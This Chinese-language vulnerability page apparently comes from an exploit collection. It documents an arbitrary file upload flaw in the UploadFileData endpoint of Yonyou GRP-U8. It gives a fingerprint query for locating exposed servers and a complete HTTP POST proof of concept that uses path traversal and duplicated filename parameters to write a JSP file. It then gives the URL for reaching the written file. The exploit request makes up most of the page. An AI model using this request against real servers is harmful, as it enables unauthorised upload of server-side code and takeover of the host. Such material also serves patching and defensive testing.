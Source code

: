 # 用友 GRP-U8 UploadFileData 任意文件上传漏洞

## 漏洞描述

用友 GRP-U8 UploadFileData接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>用友 GRP-U8 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-GRP-U8"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1658984179476-4b141067-664e-4147-9632-c05e05f88b02.png)

验证POC

```php
POST /UploadFileData?action=upload_file&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&foldername=%2e%2e%2f&filename=debugg.jsp&filename=1.jpg HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=59227D2C93FE3E8C2626DA625CE710F9
Content-Type: multipart/form-data
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

------WebKitFormBoundary92pUawKc
Content-Disposition: form-data; name="myFile";filename="test.jpg"

<% out.println("123");%>
------WebKitFormBoundary92pUawKc--
```

![img](../../../.vuepress/public/img/1658984367405-5725ee72-e2b0-457d-bbda-528499a8d165.png)

访问写入的文件

```php
/R9iPortal/debugg.jsp
```

![img](../../../.vuepress/public/img/1658985432892-1b051d1e-8f3b-4acb-8eb3-b73ad755c05f.png)